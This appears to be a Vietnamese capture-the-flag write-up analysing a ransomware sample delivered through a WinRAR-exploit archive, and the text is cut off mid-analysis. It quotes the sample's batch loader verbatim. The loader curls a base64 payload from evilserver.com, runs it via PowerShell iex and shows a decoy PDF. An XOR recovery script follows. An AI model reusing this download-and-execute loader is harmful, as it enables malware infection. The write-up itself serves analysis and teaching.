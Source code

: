 Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v, nhưng đã đổi thành zip extension. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan. Nên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![image](https://github.com/NVex0/uWU/assets/113530029/61bdf04f-ae23-4596-9d66-749b23b84977)

Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![image](https://github.com/NVex0/uWU/assets/113530029/07075e86-fee5-4a20-8c38-3dc7c254b054)

Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main:

![image](https://github.com/NVex0/uWU/assets/113530029/ce10bc56-7731-4be1-86cf-15ee1ebc7633)

Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:
